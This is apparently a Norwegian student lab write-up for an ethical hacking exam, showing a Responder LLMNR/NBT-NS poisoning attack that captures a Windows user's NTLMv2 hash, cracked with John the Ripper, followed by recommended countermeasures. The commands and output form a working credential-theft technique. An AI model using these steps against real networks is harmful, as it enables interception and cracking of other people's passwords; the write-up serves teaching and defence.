





# 🎣 ETH2100 – Responder / LLMNR Poisoning + NTLMv2 Crack

> **Karakter:** A | ETH2100 Kontinuasjonseksamen – Oppgave 4  
> **Verktøy:** Responder, John the Ripper  
> **Teknikk:** MitM via LLMNR/NBT-NS poisoning → NTLMv2 hash capture → offline crack

---

## Miljø

| | Verdi |
|---|---|
| Angripermaskin | Kali Linux |
| IP (eth0) | 192.168.170.100/24 |
| Offer | Windows-maskin (samme subnett) |

---

## Angrepskjede

```
[Responder oppstart] → [LLMNR/NBT-NS poisoning] → [NTLMv2 hash fanget] → [John the Ripper crack] → [Passord gjenvunnet]
```

---

## Steg 1 – Nettverkskonfigurasjon

```bash
ip a
# eth0: 192.168.170.100/24 – samme subnett som offer ✓
```

---

## Steg 2 – Oppstart av Responder

```bash
sudo responder -I eth0
```

**Aktive poisoners:**

| Modul | Status |
|-------|--------|
| LLMNR | `[ON]` |
| NBT-NS | `[ON]` |
| MDNS | `[ON]` |
| DNS | `[ON]` |

**Falske servere aktivert:** SMB, HTTP, HTTPS, Kerberos, SQL, FTP, LDAP, RDP, WinRM, m.fl.

---

## Steg 3 – Trigger fra offer (Windows)

Fra Windows Explorer: `\\fakeserver\share` tastet inn i adressefeltet.

**Hva skjer:**
1. DNS-oppløsning feiler (fakeserver eksisterer ikke)
2. Windows faller tilbake til LLMNR/NBT-NS multicast
3. Responder svarer og utgir seg for å være fakeserver
4. Windows presenterer autentiseringsdialog

**Legitimasjon oppgitt av offer:**
- Brukernavn: `S2`
- Passord: `superman`

---

## Steg 4 – NTLMv2 Hash Capture

Responder fanget **NTLMv2 challenge-response-hash** over SMB:

```
[SMB] NTLMv2-SSP Client   : 192.168.56.1
[SMB] NTLMv2-SSP Username : MicrosoftAccount\S2
[SMB] NTLMv2-SSP Hash     : S2::MicrosoftAccount:3e12d8ce930d531:863FEF86E7D926FD5E59A18E1606792F:...
```

> **Teknisk forklaring:** NTLMv2 sender aldri passordet i klartekst – serveren sender en challenge, klienten genererer en HMAC-basert respons fra NT-hashen. Den fangede challenge-response-verdien kan benyttes i et offline ordlisteangrep.

Hash lagret i `/tmp/ntlm_hash.txt`.

---

## Steg 5 – Passordknekking med John the Ripper

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt /tmp/ntlm_hash.txt
```

**Resultat:**
```
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
superman         (S2)
1g 0:00:00:00 DONE @ 204800p/s
Session completed.
```

Hashformatet gjenkjent automatisk som `netntlmv2`. Passordet `superman` knekket tilnærmet umiddelbart – det er et vanlig ord i kompromitterte passordlister.

---

## Sikkerhetsvurdering

Angrepet krever **ingen skadevare** – det utnytter innebygd funksjonalitet i Windows. Risikoen er særlig relevant i interne miljøer uten nettverkssegmentering.

### Anbefalte mottiltak

| Tiltak | Konfigurasjon |
|--------|--------------|
| Deaktiver LLMNR | GPO: `Computer Config → Admin Templates → Network → DNS Client → Turn off multicast name resolution` |
| Deaktiver NBT-NS | Nettverksadapterinnstillinger → WINS → Disable NetBIOS over TCP/IP |
| Foretrekk Kerberos | Begrens NTLM der det er mulig via GPO |
| Sterke passord | Forhindrer rask offline-knekking |
| Nettverkssegmentering | Begrenser angriperens rekkevidde innad i nettet |
| IDS/IPS-regler | Detekter unormal LLMNR/NBT-NS-trafikk |

---

## Skjermbilder

### Figur 1 – Nettverkskonfigurasjon Kali Linux


### Figur 2 – Responder oppstart med aktive poisoners


### Figur 3 – Windows Security-dialog (offer autentiserer mot Kali)


### Figur 4 – NTLMv2-SSP hash fanget av Responder


### Figur 5 – John the Ripper knekker passordet «superman»

